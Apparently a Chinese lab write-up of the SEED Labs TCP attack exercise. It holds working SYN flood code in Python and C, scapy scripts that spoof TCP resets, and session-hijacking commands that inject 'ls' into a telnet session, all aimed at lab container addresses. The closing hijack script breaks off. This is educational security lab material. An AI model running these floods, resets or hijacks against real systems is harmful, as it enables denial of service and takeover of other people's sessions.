# TCP attack

## 0.问题

https://blog.csdn.net/aa867734398/article/details/104154476)


## 1 环境配置

Ubuntu-Seed 20.04

### 1.1 docker 配置

- 攻击机`IP`: 10.9.0.1 (主机)
- 服务机`IP`: 10.9.0.2 (docker 容器 `Server`)
- 用户机`IP`: 10.9.0.3 (dockker 容器 `User`)

参考https://seedsecuritylabs.org/Labs_20.04/Networking/TCP_Attacks/

下载配置环境文件https://seedsecuritylabs.org/Labs_20.04/Files/TCP_Attacks/Labsetup.zip

修改配置文件 `docker-compose.yml `:

```bash
version: "3"

services:
    Server:
        image: handsonsecurity/seed-ubuntu:large
        container_name: Server
        tty: true
        cap_add:
                - ALL
        privileged: true
        networks:
            net-10.9.0.0:
                ipv4_address: 10.9.0.2


    User:
        image: handsonsecurity/seed-ubuntu:large
        container_name: User
        tty: true
        cap_add:
                - ALL
        privileged: true
        networks:
            net-10.9.0.0:
                ipv4_address: 10.9.0.3


networks:
    net-10.9.0.0:
        name: net-10.9.0.0
        ipam:
            config:
                - subnet: 10.9.0.0/24

```

构建

docker-compose -f docker-compose.yml build

运行

docker-compose up

停止

docker-compose down

### 1.2 使用docker

sudo docker exec -it `容器名字` /bin/bash

```bash
# 进入User
sudo docker exec -it User /bin/bash
# 进入Server
sudo docker exec -it Server /bin/bash
```

### 1.3 telnet服务器开启

```bash
sudo /etc/init.d/openbsd-inetd restart
```

## 2 TCP SYN-Flood

### 2.1 用户机关闭SYNCookie保护

```sysctl -w net.ipv4.tcp_syncookies=0```

### 2.2 netwox 攻击

攻击前查看网络状态



攻击机实施攻击

`sudo netwox 76 -i 10.9.0.2 -p 23`

netstat -nat查看网络连接状态



wireshark内也可以抓到包



此时，客户端无法连接服务器telnet 



原来的连接还能保持



查看服务器CPU和内存

攻击前：



攻击后：



CPU占有由小幅度上升

开启syn-cookies机制后，再次攻击



客户机可以正常连接

### 2.3 scapy 攻击

安装scapy (python3版本)

`sudo apt install python3-scapy`

synflood.py

```python
#!/usr/bin/python3
from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits

a = IP(dst="10.9.0.2")
b = TCP(sport=1551, dport=23, seq=1551, flags='S')
pkt = a/b

while True:
    pkt[IP].src = str(IPv4Address(getrandbits(32)))
    send(pkt, verbose = 0)
```

`sudo python3 synflood.py `



攻击效果：





由于python效率较低，发包频率较低，客户机telnet仍可以连接。

### 2.4 C程序攻击

syn_c.h

```c
/* Ethernet header */
struct ethheader {
    u_char  ether_dhost[6];    /* destination host address */
    u_char  ether_shost[6];    /* source host address */
    u_short ether_type;        /* IP? ARP? RARP? etc */
};

/* IP Header */
struct ipheader {
  unsigned char      iph_ihl:4,     // IP header length
                     iph_ver:4;     // IP version
  unsigned char      iph_tos;       // Type of service
  unsigned short int iph_len;       // IP Packet length (data + header)
  unsigned short int iph_ident;     // Identification
  unsigned short int iph_flag:3,    // Fragmentation flags
                     iph_offset:13; // Flags offset
  unsigned char      iph_ttl;       // Time to Live
  unsigned char      iph_protocol;  // Protocol type
  unsigned short int iph_chksum;    // IP datagram checksum
  struct  in_addr    iph_sourceip;  // Source IP address
  struct  in_addr    iph_destip;    // Destination IP address
};

/* ICMP Header  */
struct icmpheader {
  unsigned char icmp_type;        // ICMP message type
  unsigned char icmp_code;        // Error code
  unsigned short int icmp_chksum; // Checksum for ICMP Header and data
  unsigned short int icmp_id;     // Used for identifying request
  unsigned short int icmp_seq;    // Sequence number
};

/* UDP Header */
struct udpheader
{
  u_int16_t udp_sport;           /* source port */
  u_int16_t udp_dport;           /* destination port */
  u_int16_t udp_ulen;            /* udp length */
  u_int16_t udp_sum;             /* udp checksum */
};

/* TCP Header */
struct tcpheader {
    u_short tcp_sport;               /* source port */
    u_short tcp_dport;               /* destination port */
    u_int   tcp_seq;                 /* sequence number */
    u_int   tcp_ack;                 /* acknowledgement number */
    u_char  tcp_offx2;               /* data offset, rsvd */
#define TH_OFF(th)      (((th)->tcp_offx2 & 0xf0) >> 4)
    u_char  tcp_flags;
#define TH_FIN  0x01
#define TH_SYN  0x02
#define TH_RST  0x04
#define TH_PUSH 0x08
#define TH_ACK  0x10
#define TH_URG  0x20
#define TH_ECE  0x40
#define TH_CWR  0x80
#define TH_FLAGS        (TH_FIN|TH_SYN|TH_RST|TH_ACK|TH_URG|TH_ECE|TH_CWR)
    u_short tcp_win;                 /* window */
    u_short tcp_sum;                 /* checksum */
    u_short tcp_urp;                 /* urgent pointer */
};

/* Psuedo TCP header */
struct pseudo_tcp
{
        unsigned saddr, daddr;
        unsigned char mbz;
        unsigned char ptcl;
        unsigned short tcpl;
        struct tcpheader tcp;
        char payload[1500];
};
```


syn_c.c

```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>

#include "syn_c.h"

#define DEST_IP    "10.9.0.2"   // Server IP
#define DEST_PORT  23             // Server telnet port
#define PACKET_LEN 1500

unsigned short calculate_tcp_checksum(struct ipheader *ip);
void send_raw_ip_packet(struct ipheader* ip);


/******************************************************************
  Spoof a TCP SYN packet.
*******************************************************************/
int main() {
    char buffer[PACKET_LEN];
    struct ipheader *ip = (struct ipheader *) buffer;
    struct tcpheader *tcp = (struct tcpheader *) (buffer +
                               sizeof(struct ipheader));

    srand(time(0)); // Initialize the seed for random # generation.
    while (1) {
        memset(buffer, 0, PACKET_LEN);
        /*********************************************************
          Step 1: Fill in the TCP header.
        ********************************************************/
        tcp->tcp_sport = rand(); // Use random source port
        tcp->tcp_dport = htons(DEST_PORT);
        tcp->tcp_seq   = rand(); // Use random sequence #
        tcp->tcp_offx2 = 0x50;
        tcp->tcp_flags = TH_SYN; // Enable the SYN bit
        tcp->tcp_win   = htons(20000);
        tcp->tcp_sum   = 0;

        /*********************************************************
          Step 2: Fill in the IP header.
        ********************************************************/
        ip->iph_ver = 4;   // Version (IPV4)
        ip->iph_ihl = 5;   // Header length
        ip->iph_ttl = 50;  // Time to live
        ip->iph_sourceip.s_addr = rand(); // Use a random IP address
        ip->iph_destip.s_addr = inet_addr(DEST_IP);
        ip->iph_protocol = IPPROTO_TCP; // The value is 6.
        ip->iph_len = htons(sizeof(struct ipheader) +
                           sizeof(struct tcpheader));

        // Calculate tcp checksum
        tcp->tcp_sum = calculate_tcp_checksum(ip);

        /*********************************************************
         Step 3: Finally, send the spoofed packet
        ********************************************************/
        send_raw_ip_packet(ip);
    }

    return 0;
}


/*************************************************************
  Given an IP packet, send it out using a raw socket.
**************************************************************/
void send_raw_ip_packet(struct ipheader* ip)
{
    struct sockaddr_in dest_info;
    int enable = 1;

    // Step 1: Create a raw network socket.
    int sock = socket(AF_INET, SOCK_RAW, IPPROTO_RAW);

    // Step 2: Set socket option.
    setsockopt(sock, IPPROTO_IP, IP_HDRINCL,
                     &enable, sizeof(enable));

    // Step 3: Provide needed information about destination.
    dest_info.sin_family = AF_INET;
    dest_info.sin_addr = ip->iph_destip;

    // Step 4: Send the packet out.
    sendto(sock, ip, ntohs(ip->iph_len), 0,
           (struct sockaddr *)&dest_info, sizeof(dest_info));
    close(sock);
}


unsigned short in_cksum (unsigned short *buf, int length)
{
   unsigned short *w = buf;
   int nleft = length;
   int sum = 0;
   unsigned short temp=0;

   /*
    * The algorithm uses a 32 bit accumulator (sum), adds
    * sequential 16 bit words to it, and at the end, folds back all
    * the carry bits from the top 16 bits into the lower 16 bits.
    */
   while (nleft > 1)  {
       sum += *w++;
       nleft -= 2;
   }

   /* treat the odd byte at the end, if any */
   if (nleft == 1) {
        *(u_char *)(&temp) = *(u_char *)w ;
        sum += temp;
   }

   /* add back carry outs from top 16 bits to low 16 bits */
   sum = (sum >> 16) + (sum & 0xffff);  // add hi 16 to low 16
   sum += (sum >> 16);                  // add carry
   return (unsigned short)(~sum);
}


/****************************************************************
  TCP checksum is calculated on the pseudo header, which includes
  the TCP header and data, plus some part of the IP header.
  Therefore, we need to construct the pseudo header first.
*****************************************************************/
unsigned short calculate_tcp_checksum(struct ipheader *ip)
{
    struct tcpheader *tcp = (struct tcpheader *)((u_char *)ip +
                            sizeof(struct ipheader));

    int tcp_len = ntohs(ip->iph_len) - sizeof(struct ipheader);

    /* pseudo tcp header for the checksum computation */
    struct pseudo_tcp p_tcp;
    memset(&p_tcp, 0x0, sizeof(struct pseudo_tcp));

    p_tcp.saddr  = ip->iph_sourceip.s_addr;
    p_tcp.daddr  = ip->iph_destip.s_addr;
    p_tcp.mbz    = 0;
    p_tcp.ptcl   = IPPROTO_TCP;
    p_tcp.tcpl   = htons(tcp_len);
    memcpy(&p_tcp.tcp, tcp, tcp_len);

    return (unsigned short) in_cksum((unsigned short *)&p_tcp,
                                     tcp_len + 12);
}

```

编译：`gcc syn_c.c -o syn_c.out`

运行：`./syn_c.out `

攻击效果：



telnet无法正常连接



## 3 TCP Reset

### 3.1 netwox 攻击

`sudo netwox 78 -d br-15e9de546a72 -s linkbraw`

攻击效果

telnet连接断开



攻击期间telnet无法登录


### 3.2 scapy手动攻击

找到server最后一条tcp包



包内信息：

ip4-src 10.9.0.2

ip4-dst 10.9.0.3

tcp-src 23

tcp-dst 41768

tcp_acknum 3345820281

修改tcp_reset_mannual.py

```python
#!/usr/bin/python3
from scapy.all import *

print("SENDING RESET PACKET.........")
ip  = IP(src="10.9.0.3", dst="10.9.0.2")
tcp = TCP(sport=41806, dport=23,flags="R",seq=3345820281)
pkt = ip/tcp
ls(pkt)
send(pkt,verbose=0)
```

运行: `python3 tcp_reset_mannual.py`

攻击效果：



Telnet通讯中断



### 3.3 Scapy自动攻击

tcp_reset_auto.py

```py
#!/usr/bin/python3
from scapy.all import *

SRC  = "10.9.0.3"
DST  = "10.9.0.2"
PORT = 23

def spoof(pkt):
    old_tcp = pkt[TCP]
    old_ip = pkt[IP]

    #############################################
    ip = IP(src = old_ip.dst, dst = old_ip.src)
    tcp = TCP(sport = old_tcp.dport, dport = old_tcp.sport, seq = old_tcp.ack, flags = "R") 
    #############################################

    pkt = ip/tcp
    send(pkt,verbose=0)
    print("Spoofed Packet: {} --> {}".format(ip.src, ip.dst))

f = 'tcp and src host {} and dst host {} and dst port {}'.format(SRC, DST, PORT)
sniff(filter=f, prn=spoof, iface="br-15e9de546a72")
```

运行: `sudo python3 tcp_reset_auto.py`

攻击效果：



telnet攻击断开



## 4 TCP会话劫持

### 4.1 netwox 手动劫持

wireshark抓包分析

分析tcp连接的server最后一个包



包内信息：

ip4-src 10.9.0.2

ip4-dst 10.9.0.3

tcp-src 23

tcp-dst 41768

tcp_seqnum 4174647762 

tcp_acknum 1141611836

tcp-window 501

构造client发出新的包：

ip4-src 10.9.0.3

ip4-dst 10.9.0.2

tcp-src 41768

tcp-dst 23

tcp_seqnum 1141611836

tcp_acknum 4174647762 + 21 = 4174647783

tcp-window 501

netwox指令：

```bash
sudo netwox 40 --ip4-src 10.9.0.3 --ip4-dst 10.9.0.2 --tcp-src 41768 --tcp-dst 23 --tcp-seqnum 1141611836 --tcp_acknum 4174647783 --tcp-ack --tcp-window 501 --tcp-data "6c730d00"

```

运行该指令



运行结果：



显示了当前目录下的文件

### 4.2 Scapy 手动劫持

wireshark抓包分析

分析tcp连接的server最后一个包



包内信息：

ip4-src 10.9.0.2

ip4-dst 10.9.0.3

tcp-src 23

tcp-dst 41768

tcp_seqnum 4174647783 

tcp_acknum 1141611840

tcp-window 501

构造client发出新的包：

ip4-src 10.9.0.3

ip4-dst 10.9.0.2

tcp-src 41768

tcp-dst 23

tcp-seqnum 1141611840

tcp_acknum 4174647783 + 35 = 4174647818

tcp-window 501

hijacking_manual_simple.py

```python
#!/usr/bin/python3
from scapy.all import *

print("SENDING SESSION HIJACKING PACKET.........")
ip  = IP(src="10.9.0.3", dst="10.9.0.2")
tcp = TCP(sport=41768, dport=23, flags="A", seq=1141611840, ack=4174647818)
data = "\n ls\n"
pkt = ip/tcp/data
send(pkt, verbose=0, iface="br-6c895804349d")

```

运行: `sudo python3 hijacking_manual_simple.py`



运行结果：

输出了ls的结果



### 4.3 Scapy 自动劫持

hijacking_auto_simple.py

```python
#!/usr/bin/python3
from scapy.all import *

client  = "10.9.0.3"   # Server IP
server  = "10.9.0.2"   # Client IP
PORT = 23             # Server telnet port

def spoof(pkt):
    old_ip  = pkt[IP]
    old_tcp = pkt[TCP]
    #############################################
    ip = IP(src = old_ip.dst, dst = old_ip.src)
    tcp = TCP(sport = old_tcp.dport, dport = old_tcp.sport, seq = old_tcp.ack, ack = old_tcp.seq + len(old_tcp.payload), flags = "A")
